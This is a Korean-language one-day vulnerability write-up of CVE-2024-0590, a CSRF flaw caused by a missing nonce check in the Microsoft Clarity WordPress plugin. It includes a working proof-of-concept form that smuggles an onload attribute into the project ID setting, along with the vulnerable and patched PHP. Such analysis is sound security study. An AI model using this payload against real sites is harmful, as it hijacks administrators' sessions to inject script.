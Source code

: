 ```yaml
---
title: "[CVE-2024-0590] 취약점 분석 보고서"
description: "Microsoft Clarity에서 발생하는 CSRF 취약점"
author: bde574786
date: 2025-02-21 18:47:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, WordPress, CVE, CSRF]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


## **1. 취약점 개요**

WordPress 용 Microsoft Clarity 플러그인은 무료 웹 플러그인으로, 세션 녹화와 히트맵을 통해 사용자 행동을 분석하고, Copilot을 활용해 데이터를 요약·해석할 수 있다. 메트릭 대시보드를 제공하며, 개인정보 보호 기능이 내장되어 있고, 대규모 트래픽을 처리하면서도 사이트 성능에 영향을 주지 않는다. 간단한 설정만으로 사이트 모니터링이 가능하다.

CVE-2024-0590 취약점은 `edit_clarity_project_id` 함수에서 nonce 검증이 누락되었기 때문에 공격자는 프로젝트 ID를 변경하고 위조된 요청을 통해 악성 JavaScript를 추가할 수 있으며, 사이트 관리자를 속여 링크를 클릭하는 등의 작업을 수행하도록 할 수 있다.

## **2. 영향을 받는 버전**

- Microsoft Clarity ≤ 0.9.3

## **3. 취약점 테스트**

1. WordPress에서는 Editor 이하의 사용자 역할은 보안상의 이유로 `script` 태그 사용이 제한된다. 이러한 제한은 Wordpress의 `unfilterd_html` 기능과 관련이 있다. `unfiltered_html` 권한은 Administrator와 Editor 역할에만 부여되며, Author, Contributor, Subscriber 등 그 이하의 역할에는 부여되지 않는다. 
    
    [Roles and Capabilities](https://wordpress.org/documentation/article/roles-and-capabilities/)
    
    ![image.png](assets/posts/one-day/2025-02-21/image.png)
    
    따라서, 최소 권한인 Editor로 글을 작성한다. 페이로드는 아래와 같다.
    
    ```php
    <!DOCTYPE html>
    <html>
       <body>
    <script>
     function exploit(){
    	 csrf_form.setAttribute('action', "http://localhost:8000"+csrf_form.getAttribute('action'));
    	 setTimeout(()=>{
    		 window.location="http://localhost:8000/wp-admin/admin.php?page=microsoft-clarity"
    	 },2000)
     }
    	</script>
          <h1>CSRF PoC</h1>
          <form action="/wp-admin/admin-ajax.php" method="POST" name=csrf_form id=csrf_form target="_blank">
             <input type="hidden" name="action" value="edit_clarity_project_id" />
             <input type="hidden" name="new_value" value='" onload=alert(1) x="' />
             <input type="submit" onclick=exploit()  value="Submit request" />
          </form>
       </body>
    </html>
    ```
    

2. Custom HTML 블록 안에 페이로드를 삽입한다.
    
    ![image.png](assets/posts/one-day/2025-02-21/image%201.png)
    

3. Admin으로 로그인 한 후 Editor가 작성한 게시물의 버튼을 클릭하면 Clarity 프로젝트의 ID 값을 변경할 수 있다.
    
    ![image.png](assets/posts/one-day/2025-02-21/image%202.png)
    

## **4. 취약점 상세 분석**

`edit_clarity_project_id` 함수에는 CSRF 방어를 위한 Nonce 검증이 누락되어 있다. `new_value` 라는 사용자 입력값을 검증 없이 바로 사용하므로, 공격자가 관리자의 세션을 이용하여 악성 요청을 보낼 수 있다.

```php
/**
* Add callback triggered when a new message is received
* Edits the clarity project id option respectively
*/
add_action('wp_ajax_edit_clarity_project_id', "edit_clarity_project_id");
function edit_clarity_project_id() {
    $new_value = $_POST['new_value'];
    // only admins are allowed to edit the Clarity project id
    if (!current_user_can('manage_options')) {
        die(
            json_encode(
                array(
                    'success' => false,
                    'message' => 'User must be WordPress admin.'
                )
            )
        );
    } else {
        update_option(
            'clarity_project_id', /* option */
            $new_value /* value */
            /* autoload */
        );
        die(
            json_encode(
                array(
                    'success' => true,
                    'message' => 'Clarity project updated successfully.'
                    )
                )
        );
    }
}

```

## **5. 패치**

CSRF에 취약했던 `edit_clarity_project_id` 함수에 csrf 토큰 검증 로직이 추가되었다.

[https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3036293%40microsoft-clarity&old=2942949%40microsoft-clarity&sfp_email=&sfph_mail=](https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3036293%40microsoft-clarity&old=2942949%40microsoft-clarity&sfp_email=&sfph_mail=)

```php
/**
* Add callback triggered when a new message is received
* Edits the clarity project id option respectively
*/
add_action('wp_ajax_edit_clarity_project_id', "edit_clarity_project_id");
function edit_clarity_project_id() {
    $new_value = $_POST['new_value'];
    $nonce = $_POST['nonce'];
    if (!wp_verify_nonce($nonce, "wp_ajax_edit_clarity_project_id")) {
        die(
            json_encode(
                array(
                    'success' => false,
                    'message' => 'Invalid nonce.'
                )
            )
        );
    }
    // only admins are allowed to edit the Clarity project id
    if (!current_user_can('manage_options')) {
        die(
            json_encode(
                array(
                    'success' => false,
                    'message' => 'User must be WordPress admin.'
                )
            )
        );
    } else {
        update_option(
            'clarity_project_id', /* option */
            $new_value /* value */
            /* autoload */
        );
        die(
            json_encode(
                array(
                    'success' => true,
                    'message' => 'Clarity project updated successfully.'
                    )
                )
        );
    }
}
```